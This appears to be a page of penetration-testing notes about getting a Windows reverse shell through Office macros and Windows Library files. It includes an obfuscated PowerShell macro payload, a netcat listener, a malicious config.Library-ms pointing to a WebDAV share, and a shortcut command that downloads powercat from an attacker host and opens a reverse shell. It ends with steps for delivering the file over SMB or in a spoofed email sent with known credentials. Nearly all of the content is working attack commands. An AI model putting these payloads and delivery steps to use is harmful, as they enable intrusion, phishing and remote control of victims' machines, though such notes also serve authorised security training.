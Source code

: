````
Str = Str + "powershell.exe -nop -w hidden -enc SQBFAFgAKABOAGU"
        Str = Str + "AdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAd"
        Str = Str + "AAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwB"
        Str = Str + "QBjACAAMQA5ADIALgAxADYAOAAuADEAMQA4AC4AMgAgAC0AcAA"
        Str = Str + "gADQANAA0ADQAIAAtAGUAIABwAG8AdwBlAHIAcwBoAGUAbABsA"
        Str = Str + "A== "
````
- And drop it into the Macro's VBA to complete the Macro.
- Run netcat listener for a reverse shell when document is opened `nc -nvlp 444`

## RCE with Windows Library Files
- Create a directory for webdav sharing: `mkdir /home/user/webdav
- Start wsgidav server in that folder: `wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/user/webdav` (Confirm by adding test.txt to the folder and visiting 127.0.0.1)
- Visual Code Editor: Save a text file "config.Library-ms" in `webdav` with the following;
``````
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://ipaddress.serving.webdav.folder</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
``````
- Create a Windows shortcut with the following path; 
``````
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://attackerip.serving.powercat:8000/powercat.ps1');
powercat -c attackerip.for.reverse.shell -p 4444 -e powershell"
``````
## Delivering Macros & Windows Library Files
With `nc` running on 4444, and from shared `webdav` folder served on port 8000:
- If SMB (port 139) is open: `smbclient //target.ip.address.here/share -c 'put config.Library-ms'`
- If SMPT (port 25 or 587) is open: `sudo swaks -t known.user@target.com --from test@target.com -ap --attach @config.Library-ms --server target.mail.server.ip --body @emailbody.txt --header "Subject: " --suppress-data --auth-user test@target.com --auth-password knownpassword` (IMPORTANT: Put @ in front of filenames)
